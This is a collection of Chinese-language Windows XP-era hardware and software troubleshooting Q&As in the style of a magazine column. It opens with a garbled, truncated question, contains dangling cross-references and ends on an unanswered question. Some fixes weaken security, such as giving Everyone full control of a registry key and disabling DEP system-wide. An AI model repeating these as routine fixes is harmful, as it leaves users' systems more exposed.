## 修复“磁盘管理”启动故障

问:我的Windows XP SP2(Pro版)无法打开磁盘管理,提示“磁盘管理控制台未能连接到远程计算机,因为磁盘管理远程服务不在Windows防火墙例外列表中。将磁盘管理远...# 傻博士

问：运行“DCOM Server Process Launcher (DcomLaunch)服务被禁用，将服务(dmremote.exe)添加到 Windows 防火墙例外列表, 然后重试”，怎么办？ (陕西 Stone.sxy)

答:这是因为DCOM Server Process Launcher (DcomLaunch)服务被禁用的缘故;按照下面步骤操作:首先点击“开始→运行”并键入services.msc后单击“确定”按钮打开“服务管理”,然后在窗口右侧“服务”列表中找到显示名称为DCOM Server Process Launcher的服务,如果其为“已禁止”状态,那么双击之,在“DCOM Server Process Launcher 的属性(本地计算机)”对话框中将“启动类型”下拉菜单更改为“自动”,单击“确定”按钮保存设置后重启即可。

## msconfig.exe 找不到路径

问:我的 Windows XP SP2 在“运行”中键入regedit就可以运行“注册表编辑器”,但键入msconfig却无法运行,提示找不到msconfig,怎么办？ (陕西 Stone.sxy)

答:这是因为注册表中的程序路径记录有问题的缘故,点击“开始→运行”并键入regedit,单击“确定”按钮打开“注册表编辑器”,在“注册表编辑器”窗口左侧依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths]分支,如果在该注册表项下有名为“MSCONFIG.EXE”的注册表项,则展开该注册表项,如果没有则右击App Paths注册表项执行“新建项”命令并命名为“MSCONFIG.EXE”,接着在展开MSCONFIG.EXE注册表项后在窗口右侧右击该项的默认值,选择“修改”,在“编辑字符串”对话框下的“数值数据”文本框中键入“C:\WINDOWS\PCHelp\HelpCtr\Binaries\MSConfig.exe”(不含引号, 路径请根据实际安装情况修改)。

## 解决 Windows 升级时的 Administrators Only 错误

问:最近我给系统安装了一个新的 Windows XP SP2 系统, 安装完毕后用 Windows Update 在线升级补丁,结果系统出现“Administrators Only”(仅限于管理员)的错误提示,请问如何解决？ (广东 沈剑思)

答:如果你不是以管理员身份登录、处在局域网中受到出口防火墙的保护,或通过代理服务器连接到Internet,就可能会发生这种情况。所以必须先确定是否以系统管理员身份登录系统,如果你是通过代理或防火墙的局域网(LAN)访问Internet,请与网络管理员联系,以确保防火墙或代理服务器被配置为允许使用Windows Update。当然,排除了上面的因素,那剩下的可能性就是系统出了问题,解决方法如下:

- 第一步:如果使用代理服务器连接,在IE中选择菜单“工具→Internet 选项”,在“高级”选项卡的“设置”框中勾选“通过代理连接使用HTTP 1.1”,点击“确定”,然后重新尝试Windows Update。
- 第二步:如果问题不能解决,则通过“开始→运行”输入Gpedit.msc,打开“组策略编辑器”,依次定位到“用户配置→管理模板→任务栏和开始菜单”,在右窗格中双击打开“删除到‘Windows Update’的访问和链接”属性,选择“禁用”,然后点击“确定”保存设置。
  对于Windows XP Home系统,由于没有“组策略编辑器”而无法完成上面的操作,但可以在注册表中删除控制这一属性的键值来搞定:检查[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Windows Update]和[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]项,如果找到名为“DisableWindowsUpdateAccess”或“NoWindowsUpdate”键值则删除之。
- 第三步:如果问题没有解决,则依次单击“开始→运行”,在打开框中键入regedit,打开注册表编辑器。依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate]分支,在该分支上右键并选择“权限”,单击添加,然后在弹出的对话框中键入Everyone,然后确定操作。接着在“组或用户名称”列表中选择Everyone,将其权限设置为“完全控制”,单击“确定”。退出注册表编辑后,重新登录系统,再次Windows Update。
- 第四步:如果问题还没有解决,则可能是%Systemroot%\System32\Catroot2文件夹中的数据损坏了。可以在命令提示符窗口中运行以下命令:

```
net stop cryptsvc
ren %systemroot%\system32\catroot2 oldcatroot2
net start cryptsvc
```

## “我的文档”开机自动打开

问:我的系统是Windows XP,不知道为什么开机进入系统以后,“我的文档”老是自动打开的。当然,这也不是什么大不了的问题,所以刚开始也没太注意,但后来“我的文档”里面的文件越来越多了,开机后完全进入系统要为此等很长一段时间,但自己一直没找到解决的方法。请问如何解决？ (北京 小柯)

答:这个问题可能是由于病毒或恶意网站修改了注册表所致。以前也有读者问过类似的问题,就是开机进入系统后就自动打开“资源管理器”,其实这都是利用了同样的原理,也就是在系统自启动的注册表项中增加一个打开这些文件夹的项目即可。

首先运行regedit.exe打开“注册表编辑器”,找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]。接着在右侧窗格中双击打开Userinit键,如果值为“C:\Windows\System32\Userinit.exe, C:\Windows\System32\Userinit.exe”(不包括引号,下同)就是自动打开“我的文档”,如果值为“C:\Windows\System32\Userinit.exe, Explorer.exe”则会自动打开资源管理器。你只要将其改为“C:\Windows\System32\Userinit.exe,”即可。

## 安装或启动16位 Windows 的程序时出现错误信息

问:近日我在Windows XP上启动或安装MS-DOS或16位Windows的程序时,经常会收到类似于以下内容的错误信息:“16-bit MS-DOS Subsystem path to the program that you are trying to start or install”,虽然系统可能会提示你退出程序或忽略该错误信息,但是进行任何一种选择都会使程序退出。请问如何解决这个问题？ (河北 王义)

答:如果windows\system32\config目录中的Config.nt、Autoexec.nt、Command.com等文件中有一个或多个丢失或损坏,就可能会发生这个问题,这时我们可以通过提取光盘中的原始系统文件来覆盖损坏的文件。

将光盘插入CD驱动器,然后在“记事本”中输入以下内容:

```
@echo off
expand CD-ROM Drive Letter:\i386\config.nt_ c:\windows\system32\config.nt
expand CD-ROM Drive Letter:\i386\autoexec.nt_ c:\windows\system32\autoexec.nt
expand CD-ROM Drive Letter:\i386\command.co_ c:\windows\system32\command.com
exit
```

将文件另存为fix.bat, 运行此批处理文件, 重启16位Windows的程序。

## Windows 无法找到红外线设备

问:我的笔记本电脑使用Windows XP,原来我的智能手机和笔记本电脑的红外接口凑近时, Windows XP就会自动找出红外设备, 在系统托盘中会出现红外图标并提示找到设备,然后就能通过桌面上自动添加的红外设备快捷方式传送文件了。可是最近无论怎么摆放手机,都无法与笔记本电脑连接了,Windows好像找不到任何红外线设备了,我确定BIOS中的红外线设备的设置是正确的,请问如何解决？ (广东 智能仔)

答:如果确定BIOS中的相关选项是正确的,并且排除硬件损坏等原因,就很有可能是Windows系统的设置问题,最有可能的是支持红外线传输功能的系统服务被停止或禁用了。点击“开始→运行”,在运行框中输入“services.msc”点击确定,在弹出的“服务”管理窗口中检查一下“Terminal Services”服务,如果被禁用则将其“启动类型”改为“自动”,点击“确定”后重启,问题就能解决了。

## 右击桌面空白处发生错误

问:我的系统是Windows XP SP2,不知从何时起,一旦右击桌面空白处,系统就会有几秒钟停滞,然后弹出一个提示框说为了保证安全,已经将Explorer.exe关闭,确定后弹出explorer.exe的错误报告,接着桌面上的东西就全消失了,过了几秒后又自动出现了。我是不是中毒了？ (上海 MR.苦)

答:不一定是病毒导致的,和刚才的问题一样,也有可能是Windows XP SP2的DEP机制造成的,有时DEP会和Windows自身的程序产生冲突,比如explorer.exe就是最有可能被DEP误关闭的程序之一,有很多读者打电话来询问为什么双击桌面上的“我的电脑”、“我的文档”之后explorer.exe就会重新启动,其实也很有可能是DEP关闭掉的。按照刚才那个例子编辑Boot.ini文件,将/NoExecute后的参数改为AlwaysOff,重新启动后即可。

## VPC 无法在 PAE 模式运行

问:看了《电脑爱好者》今年介绍VPC(Virtual PC)使用的文章,用惯了VMWare的我不禁想试试微软提供的虚拟机软件使用起来是什么感觉。但在安装完运行时,却显示“Virtual PC在PAE模式下无法运行,请恢复到正常模式”,我的系统是Windows XP SP2。请问什么是PAE模式,另外如何解决无法运行的问题？ (匿名读者)

答:PAE模式和Windows XP SP2中添加的DEP(数据执行保护)功能密切相关,对DEP技术感兴趣的读者可以参考本刊2005年第7期的《Windows内置的病毒防护——DEP》。DEP在实现数据执行保护时依赖于PAE(物理内存扩展)技术,而VPC产生PAE故障的原因可能是软件版本问题,首先换一个稳定版本并打上相关的补丁,如果还不能解决,请依照下面的方法操作:

- (1)在“数据执行保护”面板中修改
  右击“我的电脑”选择“属性”,打开“高级”选项卡在“性能”栏中点击“设置”按钮,然后在弹出的“性能选项”窗口中选择“数据执行保护”选项卡,将默认的“仅为基本Windows程序和服务启用DEP”(见图)改为“为除下列选定程序之外的所有程序和服务启用DEP”,接着点击“添加”按钮将VPC程序加入例外列表中。
- (2)修改Boot.ini文件
  如果在DEP的设置面板中修改,那只能逐一添加例外的程序,如何让所有程序都逃脱DEP的“魔掌”呢?直接修改Boot.ini文件即可,选择“资源管理器”的“文件夹选项”菜单,在“查看”选项卡中勾选“显示所有文件和文件夹”,取消“隐藏受保护的系统文件”的勾选。在C:根目录下找到Boot.ini,右击选择“属性”,去除其“只读”属性,然后用“记事本”打开,将“NoExecute”后默认的“OptIn”改为“OptOut”,保存并恢复其“只读”属性。
  无论用以上哪种方法,在设置完成后都需要重新启动电脑才能生效。

## 黑屏后只能用强制关机

河北读者黄朝化问：我的电脑硬件配置是：Intel P4 1.6GHz CPU、i845GL芯片组主板、显卡和声卡是主板集成的，512MB DDR内存，80GB硬盘，安装了Windows 98和Windows XP双操作系统，最近发现电脑在工作一段时间后，显示器就会突然黑屏，同时机箱面板上的硬盘指示灯不停闪烁，喇叭也发出“嘀嘀”的响声。而按下Ctrl+Alt+Del热启动键和Reset冷启动键都不能起作用，只有强行关机并等上一段时间才能正常启动。请问这是怎么回事？该如何解决？

答：从你描述的现象和电脑的配置分析，造成这个问题的原因可能有以下两个：

- (1)由于i845GL芯片组主板的显示单元集成于北桥芯片中，因此导致北桥芯片发热量比较大，此时如果北桥芯片采取的散热措施不充分或工作环境不理想，造成温度过高，会促使芯片内置的保护电路启动，这样芯片就会停止工作而导致显示输出中断并黑屏。你应该检查一下主板北桥芯片是否安装有散热片和风扇，如果没有可考虑增加一只。如果有，则应该仔细检查散热片或风扇与北桥芯片之间的接触是否良好，散热风扇的转动是否正常。
- (2)集成显卡需占用部分内存作为显存，因此内存条质量不高也会产生上述问题，你可以更换质量较好的品牌内存条试试。

## 如何找回丢失的硬盘空间

云南读者陈利丰问：我最近对硬盘进行了低级格式化操作，导致80GB的硬盘容量变成了30GB。请问如何才能找回丢失的硬盘空间？

答：造成这个问题的原因很可能是你使用的低级格式化工具软件版本较低，低版本的低级格式化软件对硬盘的容量有限制，当对超出容量限制的硬盘进行操作时就会出现上述问题。解决该问题的方法是使用高版本的低级格式化工具软件重新对硬盘进行操作。

## Windows Server 2003下不认USB移动硬盘

内蒙古读者余文问：我的电脑中安装的是Windows Server 2003，最近我购买了一块亚商40GB的USB接口移动硬盘，为什么把它连接到电脑上后，在“我的电脑”中却无法找到这块移动硬盘？

答：Windows Server 2003在默认状态下是关闭对USB设备支持这一功能的。你在连接USB设备前应该手动开启相应的Removable Storage服务，具体操作方法是：在系统桌面上选择“开始→运行”，在出现的对话框中键入services.msc并按回车键打开“服务管理器”窗口；找到并用鼠标双击“Removable Storage”服务项，在弹出的对话框中单击“启动”按钮即可。

## 墨盒闲置日久后不能出墨怎么办

江西读者洪永良问：我使用的EPSON喷墨打印机闲置了半年时间，结果在最近重新使用时发现打印喷头不能工作了。请问如何才能解决这个问题？

答：出现这个问题的主要原因是打印喷头下面的洗墨槽边沿的橡胶密封垫漏气，引起周围空气对打印喷头的不良作用，造成墨水干结而阻塞打印喷头，使打印机无法工作。解决该问题的方法是按住打印机面板上的清洗键给出清洗命令，在打印机执行清洗的过程中（墨车回到打印机右侧并开始抽墨时）拔掉打印机电源，将打印墨车推至左侧，用在热水中浸泡过的湿布轻轻擦洗打印机最右侧的洗墨槽边沿的橡胶密封垫，这样有助于密封垫保持清洁密封和恢复弹性，再将“清洁卫士”清洗液（市场上有售）滴入到洗墨槽的海绵中（滴满为止），然后手动将墨车推回到打印机最右侧即可。

## 如何才能直接拔插闪盘而不损坏数据

广东读者黄李刚问：我的电脑中安装的是Windows 2000，平时在拔下闪盘前都要先在系统中停用该设备，然而有时一马虎就直接把闪盘拔下来了，经常导致数据受损。请问有没有办法能在直接拔下闪盘时尽量避免数据受损？

答：你可以尝试启用“为快速删除而优化”功能，具体操作步骤如下：

- （1）先将闪盘插到USB接口，然后在Windows 2000系统桌面上用鼠标右键单击“我的电脑”图标。
- （2）依次展开“属性→硬件→设备管理器→磁盘驱动器”，找到“USB Flash Drive USB Device”（不同品牌的闪存名称可能不同）。
- （3）双击打开“USB Flash Drive USB Device属性”对话框，随后切换到“策略”标签。
- （4）选中“为快速删除而优化”项，单击“确定”按钮保存退出。
这样操作后你就可以在没有对闪盘进行数据读写操作（即闪存的指示灯不闪动）时直接将闪盘从USB接口上拔下来了。

## 笔记本电脑键盘进水后按键失灵

上海读者天天问：我在上班时不小心将茶水打翻了，溅了些水在笔记本电脑的键盘上。弄干后，再开机发现笔记本电脑键盘的A、C、D、F、R、E键，都无法使用了。送到维修中心，检测人员说修不了，需要更换整块笔记本电脑键盘。请问这是怎么回事？笔记本电脑键盘进水后就不能修了，要整块换掉那么夸张吗？

答：台式机的键盘与笔记本电脑键盘的构造是不一样的。笔记本电脑所使用的超薄键盘的按键触点很小，上面涂有导电胶，每按一下就会触发一个电脉冲。如果按键触点渗水了，导电胶溶解掉了，按键自然就失灵了。再加上笔记本电脑键盘的电路集成度很高，维修需要有很专业的设备，所以目前大多数厂商都会采用直接更换的维修方式来降低维修成本及缩短维修时间。另外，笔记本电脑的构造很精巧紧凑，键盘下面就是电脑的核心电路部分，一旦进水渗过键盘，后果更是不可预计。所以大家在使用笔记本电脑时，一定要格外小心。一滴水，有可能让你付出巨大的代价。

## 关于蛇形走线的疑惑

陕西读者刘天力问：我对电脑很感兴趣，但一直以来也只是在网吧里面摆弄摆弄，玩玩游戏上上网什么的。近来终于攒了些钱，准备买一台二手电脑玩玩。去到电脑市场，看上了一台采用赛扬III 1G CPU的电脑，老板说这台电脑的主板是某某大厂出品的，在电路上还采用了“蛇形线”的设计，非常稳定。我想请问一下，蛇形线设计是怎么一回事？它就真的是那么神奇吗？

答：“蛇形线”是一种板卡的电路布线方式，也可以说是一种技术。从电学原理上来说，蛇形走线有助于减少长直布线在电流通过时所产生的电感能现象，能减轻高频电路之间的串扰问题。在某种程度上来说，确实是对板卡的稳定性带来一定的帮助，同时也会增加板卡设计、制造的成本。尽管如此，很多板卡大厂也都采用了这种布线技术。但我们也要清楚，蛇形走线只是一种技术，是否采用这种技术，与产品的设计要求有直接的关系。不是说，没有采用这种蛇形布线设计的板卡就一定会比采用蛇形布线的差，这方面并不存在绝对的关系，但也可作为一种辅助参考。

## 为何5.1音箱不能输出5.1声效

山西读者天兴问：我用的是创新的5.1 PCI声卡，音箱也是5.1的罗技Z-640，连接应该没有问题，驱动程序的设置、安装都正确，但为什么我听MP3和看电影时，都好像没有输出5.1声道的声效呢？

答：实现5.1声效，除了要声卡、音箱支持之外，还要正确连接音箱和声卡，除此之外，你用来播放的程序，以及所播放的电影、DVD、CD或MP3是否支持5.1声效也是决定因素之一。所以，你可以先仔细检查一下声卡与音箱的连接是否正确，另外，在确定你的播放程序能支持5.1声效输出后，再找一些支持5.1声效的DVD来试一下。如果还是不行，请及时与创新、罗技的售后服务人员联系解决。

## 如何设定用SATA硬盘开机

深圳读者吴为问：我的主板是技嘉的865PE主板，近来升级了一块120GB的SATA硬盘。据说SATA硬盘的性能、速度都要比IDE硬盘好，于是就想把系统装在SATA硬盘上，用它来启动系统。但接上之后，我才发现怎么启动都是从原来的IDE硬盘启动，请问是不是要到BIOS里面设置才可以呢？我不太懂BIOS的。

答：在安装好SATA硬盘之后，开机时按“DEL”键进入BIOS。在BIOS的Integrated Peripherals菜单中，将“Onboard H/W Serial ATA”项设置为“enable”，再进入Advanced BIOS features菜单，将“SATA/RAID/SCSI boot order:”功能项改为“SATA”，最后将“First boot device:”改为“SATA”即可。

## Windows 98SE/ME不支持C-Media CMI9880 CODEC

北京读者嘉菲问：我电脑主板用的是技嘉的i915P主板，内建了C-Media CMI9880音频解码芯片。为了工作需要，装了Windows 98SE和XP双系统，但我发现板载的声卡在Windows 98下怎么都装不上而Windows XP下却没有问题，难道是C-Media CMI9880声效解码芯片不支持Windows 98SE系统？

答：你的主板所采用的是Intel i915P+ICH6R芯片组。在这个芯片组中，其代号为Azzalia的高清晰音频系统(High Definition Audio)引入了通用驱动程序，形成了UAA(Universal Audio Architecture，统一音频架构)的概念。该驱动包括两层：总线驱动(Bus Driver)和功能驱动(Function Drivers)，其中总线驱动统一集成在Windows 2000(SP4)/XP(SP1)/2003中，其功能是让软件能正常使用Azzalia总线，集成在操作系统中能带来更好的稳定性；而功能驱动则是在我们安装了总线驱动的基础上，为了使用户独立的CODEC(音频解码芯片)而必须安装的驱动程序，从而实现不同的功能，如DVD解码、多声道回放等功能的支持都必须通过功能驱动。而Windows 98SE/ME系统中都没有集成基于微软UAA的总线驱动，自然就不能支持C-Media CMI9880或Realtek ALC 880等采用UAA架构的音频解码芯片了。如果你在Windows 98下必须要有声音的话，只能通过添加一块PCI或外置USB声卡来解决了。

## 内存插满了就只能跑333？

问：当我在我的A8N-SLI插上4条DDR400/512MB的内存时，为何开机画面却提示内存为333MHz的呢？

答：某些厂商为了确保主板与某些内存的兼容性与稳定性，会设定当主板上的内存插槽插满内存时，将内存频率的默认值自动调低一级，如DDR400就会调整为DDR333。但这并不代表该主板就不能在插满内存时使用DDR400内存，你只要在BIOS中将内存频率设置手动调整成400MHz就可以了。

## 一开机就掉电

问：我的电脑原来一直用得很好，最近不知怎么了，开始会不固定地出现开不了机的问题，现在更是越来越严重。现象是按动电源开关后，刚启动就马上掉电了，就跟断电了一样。拆了机子，不接硬盘就没事，难道是主板出问题了？还是硬盘有问题？主板已换过一次，在别人的机器上用却没有问题。

答：这种情况很有可能是电源出了故障。

故障的原因是很多样的，如IC芯片、电容烧坏，某个电路出现问题，甚至是你的插座或电网出现供电问题都会造成这种开机掉电的故障现象。一般来说，这样的故障个人是没办法维修的，建议送修。但我们也通过一些简单的方法来做一些检测，排除电网、插座等非主机问题。方法很简单，就是给电脑挪个地方，将电脑搬到另外一个房间，用另外一个电源插座来试试，如果不行的话，你再换一个功率和品牌都更好的电源来试试。如果真的是家中的电网出现问题，恐怕就要找电力局的人来检查一下了。

## 机箱里的“咝咝”声

问：这几天晚上“开夜车”加班，突然发现机箱里会发出“咝咝”的声音，而且是不停的，那种，这是怎么回事？挺让人烦的，有什么办法搞定它？

答：这种“咝咝”声不知道是从机箱的什么部分发出来的呢？一般来说，能发出这种声音的有硬盘、电源、各种散热风扇。如果是硬盘部分的话，那是因为硬盘里面的磁碟高速旋转所发出的声音，旧一点的IBM硬盘和迈拓硬盘都会有这样的状况。如果是电源部分的话，就比较难说了，因为电源在负载严重的时候也会发出这样的声音，而有些电源的变压器也会发出这样的声音，如果里面的电容或者芯片烧了，也会发出这样的声音。如果是风扇的话，一般都是散热器与数据线、电源线挨着，由于散热风扇转动而与线缆等发生摩擦导致。你可以检查一下机箱里面的线缆和其他部件，将挨着散热器的线缆拉开即可解决。

## 相机镜头不能复位

问：我用的是柯达DX3900数码相机。前几天出去玩，刚打开、镜头伸出后就死机了。镜头也就定在那里不能缩回，其他操作也不能进行，机顶小屏提示E13，取景器旁的红灯也不停地闪。请问这是怎么回事？拔了电池再装上也还是这样，怎么办？

答：就这个问题，我们致电柯达的技术支持部门。柯达的技术支持指出，E13错误是一个硬件错误，用户是无法自行维修的，而且由于错误的不确定性，必须要将相机送到柯达的售后维修站进行故障诊断和修理。柯达数码相机的全国免费技术支持电话是：800-820-6027，这位读者可以用该电话查询你所在城市的柯达售后维修站的具体地址。

## 电脑撞邪了？

问：我出差将近一个月，回来之后，这几天发现我的电脑会在半夜12点整自动开机，这是怎么回事？

答：半夜12点……_-!，听起来有点可怕，呵呵……不知道电脑自动开机时有没有断开电源呢？如果已经断开了的话，恐怕一般科技手段是帮不了你了，呵呵……
好了，这位读者别怕，小编和你开了个玩笑，呵呵……其实，出现这样的情形，硬件本身应该是没有故障的。多是开启了定时开机的功能，又或者是有人在和你开玩笑。首先，你将连接到电脑上的电话线、网线在半夜12点自动开机前全部拔掉，如果电脑不再自动启动的话，这说明有人通过网线或者电话唤醒的方式远程开机。这样做的目的很简单，一是要和你开玩笑，二是有人要在远程用你的电脑。其次，进入BIOS看看，检查一下有没有设置定时开机，如果有的话，将该功能关闭即可。同时，为了安全起见，将所有网络唤醒、电话唤醒的功能也关闭掉（关闭操作请参考主板说明书）。另外，如果你的电脑装有电视卡的话，也请检查你的电视卡设置，因为某些电视卡是支持定时开机录制节目的。

## 超频失败不用怕

问：前几天，我将我的AMD Athlon XP2500+ CPU超了频。但是超频之后再也无法开机了，状况是按下Power按钮后，散热风扇转动正常，而硬盘灯只亮了一下便没了反应，显示器也维持待机状态。请问该如何解决？

答：这应该是超频过度造成的问题。由于此时已不能进入BIOS设置选项，因此，也就无法在BIOS设置中给CPU降频了。遇到这种情况的处理方法有两种：
- 打开机箱并在主板上找到给CMOS放电的跳线（一般都安排在纽扣电池的附近），将其设置在“CMOS放电”位置或者把电池抠掉，用螺丝刀短接两个簧片后，再将跳线或电池复位并重启电脑即可。
- 现在较新的主板大多具有超频失败的专用恢复性措施。比如：可以在开机时按住Insert键不放，BIOS将自动恢复默认设置。而在一些更为先进的主板中，还可在超频失败后主动“自行恢复”CPU的默认运行频率。因此，对于热衷超频而又缺乏实际操作经验的普通读者来说，选择带有“逐兆超频”、“超频失败自动恢复”等人性化功能的主板，会使超频CPU的工作变得异常的简单轻松。

## 16X DVD只能4X刻录

问：我买了BenQ 16X的DVD刻录机，为什么刻录时只能选4X？怎样才能达到16X刻录？

答：要达到高倍速的刻录速度，除去DVD刻录机本身的能力外，还要求盘片的支持。请您检查您使用的盘片是否为高倍速DVD刻录盘。例如明基的16X DVD刻录机，支持三十余种16X DVD刻录盘片，并支持将另外三十余种8X DVD刻录盘超刻至16X或12X。详细盘片列表您可以参考明基中国网站每个版本的firmware升级程序压缩包中的Media List文件。您也可以尝试使用明基的8X DVD+R盘片，在明基的DW1610/DW1620/DW1620pro中均可达到16X或12X的刻录速度。

## 内存扩容也要兼容

问：为了提高系统性能，我刚刚为我的爱机扩充了内存。可是内存加大后系统资源反而降低了，请问这是怎么回事？

答：此类现象一般是由于主板与内存不兼容引起的，常见于高频率的内存条用于某些不支持此频率的内存条的主板上。当出现这样的故障后，你可以试着在COMS中将内存的CL值提高到3试试。如果这样还不行，请更换与主板兼容的内存条。

## 换上新墨盒，还是“墨尽”？

问：我的HP喷墨打印机刚刚更换了新墨盒，可是打印机在开机时面板上的“墨尽”灯仍是亮的。请问这种情况该如何处理？

答：正常情况下，当墨水已用完时“墨尽”灯才会亮。更换新墨盒后，打印机面板上的“墨尽”灯还亮，发生这种故障，一是有可能墨盒未装好，另一种可能是在关机状态下自行拿下旧墨盒，更换上新的墨盒。因为重新更换墨盒后，打印机将对墨水输送系统进行充墨，而这一过程在关机状态下将无法进行，使得打印机无法检测到重新安装上的墨盒。另外，有些打印机对墨水容量的计量是使用打印机内部的电子计数器来进行计数的（特别是在对彩色墨水使用量的统计上），当该计数器达到一定值时，打印机判断墨水用尽。而在墨盒更换过程中，打印机将对其内部的电子计数器进行复位，从而确认安装了新的墨盒。解决方法：打开电源，将打印头移动到墨盒更换位置。将墨盒安装好后，让打印机进行充墨，充墨过程结束后，故障排除。

## 声卡噪音的几种原因

问：我的电脑音箱中总有较大的噪音，通过排除法确定是声卡的问题。请问出现这种故障的原因是什么？该如何解决？

答：声卡噪音过大可能有如下几种原因：
- 插卡不正。由于机箱制造精度不够高、声卡外挡板制造或安装不良，导致声卡不能与主板扩展槽紧密结合，目视可见声卡上“金手指”与扩展槽簧片有错位。这种现象在ISA卡或PCI卡上都有，属于常见故障。一般可用钳子校正。
- 有源音箱输入接在声卡的Speaker输出端。对于有源音箱，应接在声卡的Line out端，它输出的信号没有经过声卡上的功放，噪声要小得多。有的声卡上只有一个输出端，是Line out还是Speaker要靠卡上的跳线决定，厂家的默认方式常是Speaker，所以要拔下声卡调整跳线。
- Windows自带的驱动程序不好。在安装声卡驱动程序时，要选择“厂家提供的驱动程序”而不要选“Windows默认的驱动程序”如果用“添加新硬件”的方式安装，要选择“从磁盘安装”而不要从列表框中选择。如果已经安装了Windows自带的驱动程序，可选“控制面板→系统→设备管理→声音、视频和游戏控制器”，选择各个设备，选“属性→驱动程序→更改驱动程序→从磁盘安装”。这时插入声卡附带的磁盘或光盘，安装厂家提供的驱动程序。

## 超频后声卡为什么不出声

问：我的计算机一直正常使用，后来超频，将CPU外频提高后，声卡就无声了，请问是什么原因造成的？

答：声卡出现异常，是超频后很常见的故障之一。现在主板集成的AC'97声卡由于抗干扰能力不强，因此对PCI频率很敏感，提高外频后可能导致系统总线频率提高，大多数AC'97声卡在非标准频率(高于33MHz)下无法正常工作。解决的方法，一是超频时外频提升的幅度不要太大。调整BIOS设置，使得外频提升后PCI频率保持为33MHz。能在超频的情况下保持声卡正常工作。另外如果无法确保PCI频率保持不变，那么你可以尝试添加一块USB接口的外置声卡。

## 进入游戏后为什么总有out of range

问：我的显示器最近在进入游戏后，电源灯总是不断闪烁，屏幕上出现“out of range”等提示字样，只有关掉显示器电源开关再打开，才能出现图像，可这种情况只出现在Windows 98操作系统下，而在Windows XP操作系统下却没有上述问题，请问是什么原因造成的啊？

答：“out of range”是指当前分辨率下所设定的刷新率超过显示器带宽限制。你说在Windows XP运行正常，那么说明硬件及游戏设置应该没有问题。而在Windows 98操作系统下，你可以单击“开始→运行”，输入“DxDiag→其他帮助→替代→默认值→确定”，问题就可以解决。

## 计算机必须使用参数稳压器

问：我是杭州人，夏天用电紧张，电压不稳，我怕电脑损坏，因此买了一个稳压器。但用了不久，电脑电源就损坏了，朋友说电源损坏是因为使用了稳压器的缘故，电脑必须使用参数稳压器，请问是这样吗？

答：计算机一定不要随意使用普通的稳压器。很多电力稳压器采用了机械稳压的方式保持电压稳定，在市电电压出现变化时，就会进行频繁的调整性切换动作。而这些切换动作常常会产生一些高频的电磁脉冲，极易使计算机电源或者主板等设备工作不稳定，导致经常性重启，甚至损坏，因此计算机等精密电子设备一定不要使用普通的稳压器。
其实正规的计算机电源都能够保证在一定的电压范围内正常工作，如果电压波动的确太大，那么为计算机加装的稳压器必须是专用的参数稳压器，或者购置一台计算机专用的UPS电源，就能够有效消除电网品质不好对计算机的影响。

## 硬盘无法识别

问：我的希捷120GB硬盘在开机时总会显示：“Primary master hard disk fail”，BIOS提示按F1，但按F1后就显示“DISK BOOT FAIL……”，始终不能进入Windows。将这块硬盘装入别的计算机后问题依旧，请问是什么问题造成的？

答：出现这种错误的原因一般由两种原因引起：
- 硬盘主引导记录被破坏。
- 如果你的硬盘被分为多个分区，可能是引导分区的引导扇区被破坏。

两种故障可能是病毒所致或者是硬盘读写过程中突然断电所导致的。具体的解决方法如下：首先，把故障硬盘作为从硬盘挂到其他计算机上面，看看能否正常读写。如果能够正常读写说明分区表本身还是好的，可以用带以下参数的FDISK命令修复。FDISK命令有三个帮助文档未见的参数，分别为/MBR、/PRI、/EXT，其作用是重写主引导记录、重写DOS基本分区引导记录和重写DOS扩展分区引导记录。另外，如果分区表损坏，可以用NORTON磁盘修复软件进行恢复。还可以用FDISK命令重新分区处理，但是这样做之前应该对盘中的原有数据作备份，否则盘中原有的数据就被彻底破坏了。

## 显示器为什么没有显示

问：一台计算机出现如下问题，有时按下开机按钮，电源灯亮，但显示器却无反应（显示器是开的），重起或重新开机都没有显示，但重复几次后会好，请问这是什么原因造成的？

答：首先，如果计算机启动后，显示器的指示灯不亮，这是显示器的电源没有接通，请你检查显示器的电源是否接触良好，如果显示器的指示灯亮，但是一直呈现橘黄色，说明显示卡的同步信号没有送来，或者送来之后显示器的接收电路有问题；请分别检查显示卡、显示器之间的连接是否良好；正常显示时，显示器指示灯应该呈现黄绿色。因此请你在保证连接良好的情况下，用好显示卡和显示器交换，以便更准确地确认问题。

## 无线设备会串扰

问：我用的是Sony的迅驰笔记本，为何我在打开无线网络后我的鼠标工作不正常了？

答：如果你使用的是无线射频鼠标，且工作在2.4GHz频带上时就有可能出现这种情况。这是由于802.11b/g无线网络的工作频带也为2.4GHz，当两者工作频率相同或接近时就会产生干扰。你可以对无线网卡或者鼠标的频道进行调节达到互不干扰的目的。

## NBA2005运行不流畅

问：一台计算机的显卡是七彩虹6600GT，最近在玩NBA2005过程中老是突然画面停止，然后慢慢声音也停了下来，几秒钟后又恢复正常。基本上每场比赛都有这种情况出现，我个人感觉像是声画不同步，更换驱动程序问题依旧，请问这是什么问题造成的？

答：从您描述的状况来看，画面和声音停止，可能是虚拟内存不足或者资源占用率过高造成的。您可以先清理您的系统盘，使可用空间增大，再增加您的系统虚拟内存。如果不行，可以关闭一些程序，如杀毒软件，降低系统资源占用之后再运行NBA2005。
另外，如果您安装的是繁体中文版游戏，建议您将游戏升级，可以解决一部分游戏不流畅的问题。

## 如何升级内存

问：一台计算机的具体配置如下：AMD64 3000+ CPU、升技NF8主板、金士顿512MB（现代D43颗粒）内存，我想增加一条金士顿512MB（也是采用现代D43的颗粒）内存，不过商家现在很难找得到货，请问换一根超胜512MB的内存可以吗？

答：按照常理来说内存的颗粒最好是相同的，不过在一些情况下这是不可能实现的，经常会出现一些内存混插的现象，可以说这是一个比较普遍的现象。内存混插主要看主板和内存的兼容性和稳定性，如果您的主板对金士顿的内存兼容性比较好的话，那么我们还是建议您使用同品牌同型号的内存。如果实在找不到相同型号的内存，那么换用超胜512MB内存也是不错的。

## AMD64位处理器主板搭配

问：我最近想买一台5000元左右的电脑，主要用途就是游戏，CPU最好是AMD64 3000+，请帮忙推荐一下CPU、主板？

